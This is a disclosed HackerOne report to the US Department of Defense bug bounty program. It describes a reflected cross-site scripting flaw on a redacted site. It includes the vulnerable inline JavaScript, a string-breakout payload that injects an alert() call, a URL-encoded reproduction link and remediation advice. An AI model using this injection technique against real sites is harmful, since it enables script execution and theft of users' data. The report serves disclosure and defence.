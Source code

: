 # Reflected XSS on █████████

## Report Details
- **Report ID**: 1059395
- **URL**: https://hackerone.com/reports/1059395
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-15T12:48:35.722Z
- **Disclosed**: 2021-04-02T18:50:29.579Z

## Reporter
- **Username**: phibz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary 
Reflected XSS on `█████`.

## Description
The page `█████` has a reflected parameter `██████████`. The parameter is used in a javascript function. For example for requesting `http://█████████/?█████████=chron0x` the javascript is as follows:
```javascript
[...]
<script>
	//alert('boo');
    function clickit(){
        var █████████ = 'chron0x';
        if (██████████!==''){
            //alert(████████);
            $('#'+████████).click();
            //alert(████);
	    }
    }
</script>
[...]
```
Due to improper input sanitization, this is vulnerable to XSS. The payload `?█████=';}alert("chron0x"); function clickit(){//`


```javascript
[...]
<script>
	//alert('boo');
    function clickit(){
        var ████ = '';
    }
    alert("chron0x"); 
    function clickit(){//';
        if (██████████!==''){
            //alert(██████████);
            $('#'+██████████).click();
            //alert(████████);
	    }
    }
</script>
[...]
```

pops an alert box, demonstrating XSS.

Note: I am reporting this here, since the footer of `████` states `Official United States ███████ Website. The ████████ █████.`, and the United States ██████████ underlies the DoD. If this should not belong to the DoD scope I would kindly ask to self close this issue.

## Step-by-step Reproduction Instructions

1. Visit `http://█████/?██████=%27;}alert(%22chron0x%22);%20function%20clickit(){//`

An alert box with `chron0x` pops.

## Mitigation/Remediation Actions
Sanitize the input for the ███████ parameter, such that certain characters are encoded or not allowed.

## Impact

Data can be stolen, or Javascript can be executed.

## Attachments
No attachments
